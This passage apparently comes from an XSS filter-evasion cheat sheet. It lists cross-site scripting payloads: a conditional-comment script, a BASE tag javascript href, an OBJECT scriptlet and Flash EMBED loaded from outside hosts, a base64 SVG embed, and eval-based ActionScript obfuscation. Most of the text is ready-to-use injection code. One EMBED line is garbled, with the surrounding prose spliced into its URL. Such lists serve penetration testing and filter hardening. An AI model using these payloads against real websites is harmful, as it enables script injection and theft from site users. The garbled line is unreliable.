 `<!--[if gte IE 4]>`  
` <SCRIPT>alert('XSS');</SCRIPT>`  
` <![endif]-->`

## BASE tag

Works in IE and Netscape 8.1 in safe mode. You need the // to comment
out the next characters so you won't get a JavaScript error and your XSS
tag will render. Also, this relies on the fact that the website uses
dynamically placed images like "images/image.jpg" rather than full
paths. If the path includes a leading forward slash like
"/images/image.jpg" you can remove one slash from this vector (as long
as there are two to begin the comment this will work):

`<BASE HREF="javascript:alert('XSS');//">`

## OBJECT tag

If they allow objects, you can also inject virus payloads to infect the
users, etc. and same with the APPLET tag). The linked file is actually
an HTML file that can contain your XSS:

` <OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>`

## Using an EMBED tag you can embed a Flash movie that contains XSS

Click here for a demo. If you add the attributes
allowScriptAccess="never" and allownetworking="internal" it can mitigate
this risk (thank you to Jonathan Vanasco for the info).:

`EMBED SRC="http://ha.ckers.Using an EMBED tag you can embed a Flash movie that contains XSS. Click here for a demo. If you add the attributes allowScriptAccess="never" and allownetworking="internal" it can mitigate this risk (thank you to Jonathan Vanasco for the info).:`  
`org/xss.swf" AllowScriptAccess="always"></EMBED>`

## You can EMBED SVG which can contain your XSS vector

This example only works in Firefox, but it's better than the above
vector in Firefox because it does not require the user to have Flash
turned on or installed. Thanks to nEUrOO for this one.

`<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>`

## Using ActionScript inside flash can obfuscate your XSS vector

`a="get";`  
`b="URL(\"";`  
`c="javascript:";`  
`d="alert('XSS');\")";`  
`eval(a+b+c+d);`
